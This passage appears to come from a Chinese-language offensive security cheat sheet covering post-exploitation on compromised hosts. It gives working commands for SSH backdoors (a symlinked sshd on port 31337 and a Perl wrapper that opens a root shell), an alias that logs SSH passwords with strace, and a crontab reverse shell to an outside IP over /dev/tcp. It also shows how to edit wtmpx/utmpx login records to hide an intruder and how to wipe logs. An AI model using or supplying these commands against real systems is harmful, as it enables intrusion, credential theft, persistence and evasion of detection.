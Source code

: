 然后本机用vps的9999端口进行代理


肉鸡执行：client.py -m 2 内网IP 内网端口 vpsIP 8888  #这样就把内网别的端口服务转出来了 

肉鸡执行：client.py -m 3 7070 这样就只是在肉鸡上监听7070端口开启socks5代理服务

####BackDoor

Openssh BackDoor

会派生一个31337端口，然后连接31337，用root/bin/ftp/mail当用户名，密码随意，就可登陆。

    ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337; 

一个后门

    cd /usr/sbin
    mv sshd ../bin
    echo '#!/usr/bin/perl' >sshd
    echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
    echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
    chmod u+x sshd 
    /etc/init.d/sshd restart

之后本机执行

    socat STDIO TCP4:10.18.180.20:22,sourceport=13377 


记录ssh密码

    alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read.write.connect -s 2048 ssh' 


Crontab后门

    (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/103.224.81.999/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -



###unix tips

unix自带了wtmp格式转换工具因此无需写程序条一命令即可修改last日志。

    /usr/lib/acct/fwtmp < /var/adm/wtmpx | sed "s/192.168.8.88/localhost/g" | /usr/lib/acct/fwtmp -ic > /var/adm/wtmpx

原理是先用fwtmp将wtmpx文件转换成ascii格式再用sed将登陆IP:192.168.8.88替换成localhost，(删除指定IP修改sed处)最后再用fwtmp转换成二进制格式覆盖回去。

同样也可以用于隐藏登陆用户

    /usr/lib/acct/fwtmp < /var/adm/utmpx | sed "/admin/d" | /usr/lib/acct/fwtmp -ic > /var/adm/utmpx

这样使用w命令就看不到admin用户了


###痕迹清理
touch -r 
shred删日志比rm安全:)


    #!/usr/bin/env python
    # -*- coding:utf-8 -*-
    # mail: cn.b4dboy@gmail.com
    